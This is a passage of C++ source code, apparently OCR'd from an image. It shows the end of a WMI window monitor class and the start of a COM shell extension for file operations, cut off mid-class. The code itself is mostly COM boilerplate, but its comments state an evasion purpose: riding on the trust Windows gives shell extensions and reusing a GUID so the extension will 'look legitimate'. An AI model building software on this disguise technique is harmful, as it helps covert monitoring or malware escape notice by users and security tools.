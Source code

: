 ```cpp
        }
        
        pEnumerator->Release();
        return result;
    }
    
    ~WMIWindowMonitor() {
        if (pSvc) pSvc->Release();
        if (pLoc) pLoc->Release();
        CoUninitialize();
    }
};
```

## 2. Registered Shell Extensions for File Operations

```cpp
// Use Windows Explorer's shell extension mechanism for file operations
// Shell extensions are expected and trusted by Windows
class FileOperationShellExtension {
private:
    // GUID for our shell extension
    // Using a common GUID makes our extension look legitimate
    const CLSID CLSID_FileOperation = 
        {0x3AD05575, 0x8857, 0x4850, {0x92, 0x77, 0x11, 0xB8, 0x5B, 0xDB, 0x17, 0x1C}};
    
    class FileOperationImpl : public IFileOperation, public IPersistFile {
    private:
        LONG m_refCount;
        std::wstring m_currentFile;
        
    public:
        FileOperationImpl() : m_refCount(1) {}
        
        // IUnknown methods
        ULONG STDMETHODCALLTYPE AddRef() override {
            return InterlockedIncrement(&m_refCount);
        }
        
        ULONG STDMETHODCALLTYPE Release() override {
            ULONG refCount = InterlockedDecrement(&m_refCount);
            if (refCount == 0) delete this;
            return refCount;
        }
        
        HRESULT STDMETHODCALLTYPE QueryInterface(REFIID riid, void** ppvObject) override {
            if (!ppvObject) return E_POINTER;
            
            if (riid == IID_IUnknown || riid == IID_IFileOperation) {
                *ppvObject = static_cast<IFileOperation*>(this);
                AddRef();
                return S_OK;
            }
            
            if (riid == IID_IPersistFile) {
                *ppvObject = static_cast<IPersistFile*>(this);
                AddRef();
                return S_OK;
            }
            
            *ppvObject = NULL;
            return E_NOINTERFACE;
        }
```